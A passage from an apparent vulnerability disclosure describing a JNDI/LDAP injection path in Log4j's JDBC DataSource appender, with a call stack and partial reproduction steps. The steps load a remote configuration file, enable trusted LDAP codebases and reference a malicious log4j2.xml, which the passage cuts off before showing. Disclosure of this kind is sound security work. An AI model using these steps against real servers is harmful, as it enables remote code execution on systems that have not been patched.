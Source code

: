 `DataSource dataSource = (DataSource)context.lookup(jndiName);`

Is the line that triggers the JNDI lookup, it is in `DataSourceConnectionSource -> createConnectionSource` which is called from the `PluginBuilder`. And this is also the reason for the crash since we cannot cast the object to DataSource (the crash happens after the deserialization). The lookup function will do LDAP lookup to the “RemainingName” which is the DN (what comes after the slash).

To understand the calls better, we can follow the callgraph bottom up to see who calls who:
```
createConnectionSource:75, DataSourceConnectionSource (org.apache.logging.log4j.core.appender.db.jdbc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
build:136, PluginBuilder (org.apache.logging.log4j.core.config.plugins.util)
createPluginObject:1120, AbstractConfiguration (org.apache.logging.log4j.core.config)
createConfiguration:1045, AbstractConfiguration (org.apache.logging.log4j.core.config)
createConfiguration:1037, AbstractConfiguration (org.apache.logging.log4j.core.config)
createConfiguration:1037, AbstractConfiguration (org.apache.logging.log4j.core.config)
doConfigure:651, AbstractConfiguration (org.apache.logging.log4j.core.config)
initialize:247, AbstractConfiguration (org.apache.logging.log4j.core.config)
start:293, AbstractConfiguration (org.apache.logging.log4j.core.config)
setConfiguration:626, LoggerContext (org.apache.logging.log4j.core)
reconfigure:699, LoggerContext (org.apache.logging.log4j.core)
reconfigure:716, LoggerContext (org.apache.logging.log4j.core)
start:270, LoggerContext (org.apache.logging.log4j.core)
getContext:155, Log4jContextFactory (org.apache.logging.log4j.core.impl)
getContext:47, Log4jContextFactory (org.apache.logging.log4j.core.impl)
getContext:196, LogManager (org.apache.logging.log4j)
getLogger:599, LogManager (org.apache.logging.log4j)
main:11, log4j
```

# Steps To Reproduce
For the vulnerability to be exploitable, Log4J’s configuration file needs to be loaded from an external source. This can be a remote FTP server, cloud storage etc. An attacker could use technics such as DNS poisoning and MITM in order to inject a uniquely crafted configuration file and ultimately exploit the vulnerability.

1. Fetching Remote configuration via HTTP
```java
System.setProperty("log4j2.configurationFile","http://127.0.0.1:8888/log4j2.xml");
```
2. Using the same LDAP (Lightweight Directory Access Protocol) server as done in the CVE-2021-44228 PoC (Proof of Concept), all we need to do is to run:
```java
//log4j.java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    static {
        System.setProperty("log4j2.configurationFile","http://127.0.0.1:8888/log4j2.xml");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
    }
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
    }
}
```
3. Inject the malicious log4j2.xml file into the response:
```xml
<?xml version="1.0" encoding="UTF-8"?>
```
